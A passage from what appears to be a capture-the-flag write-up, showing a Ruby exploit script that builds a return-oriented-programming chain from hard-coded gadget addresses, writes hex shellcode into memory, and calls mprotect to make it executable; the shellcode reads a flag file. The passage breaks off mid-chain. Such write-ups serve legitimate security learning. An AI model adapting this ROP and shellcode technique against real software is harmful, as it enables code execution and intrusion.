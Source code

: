 ## The exploit

Putting it all together, along with the shellcode from last question (possibly with the length changed) you get the exploit:

```
# Encoding: ascii-8bit

require './libronsolve'
require 'base64'
require 'httparty'

# Gadgets
POP_RDI_RET = 0x401D90 # 5fc3
POP_RSI_RET = 0x40F782 # 5ec3
POP_RDX_POP_RBX_RET = 0x4696D7 # 5a5bc3 - best I could find
POP_RAX_POP_RDX_POP_RBX_RET = 0x4696D6 # 585a5bc3
MOV_RAX_PTR_EDX_RET = 0x416E10 # 488902

# Random address in the data segment that we will write our shellcode to
# (this can be basically anywhere)
WRITEABLE_MEMORY = 0x4A6000

# Libc functions statically linked in
MPROTECT = 0x439450

# Debug breakpoint
DEBUG = 0x461F5F

# Argument to mprotect()
PROTECT_READ_WRITE_EXEC = 7

# Random value for padding
INDIFFERENT_VALUE = 0x5a5a5a5a5a5a5a5a

# Super inefficient "read file / write stdout" shellcode
SHELLCODE = ["b802000000e8130000002f686f6d652f6374662f666c61672e747874005fbe00000000ba000000000f055750b8000000005f5eba240000000f05b801000000bf01000000ba240000000f05b83c000000bf000000000f05cccccccccccccccc"].pack('H*')

# Break our shellcode into 8-byte chunks
offset = 0
stack = ""
SHELLCODE.scan(/.{8}/) do |code|
  # For each chunk, do:
  # rax = <offset we want to write code to>
  # rdx = <current 8 bytes of shellcode>
  # rbx = indifferent value - it's just along for the ride
  stack += [
    POP_RAX_POP_RDX_POP_RBX_RET,
    code.unpack('q').pop,
    WRITEABLE_MEMORY + offset,
    INDIFFERENT_VALUE,
    MOV_RAX_PTR_EDX_RET,
  ].pack('q*')
  offset += 8
end

# Once we're done writing shellcode, use mprotect() to make the memory +rwx
stack += [
  POP_RDI_RET,
  WRITEABLE_MEMORY,

  POP_RSI_RET,
```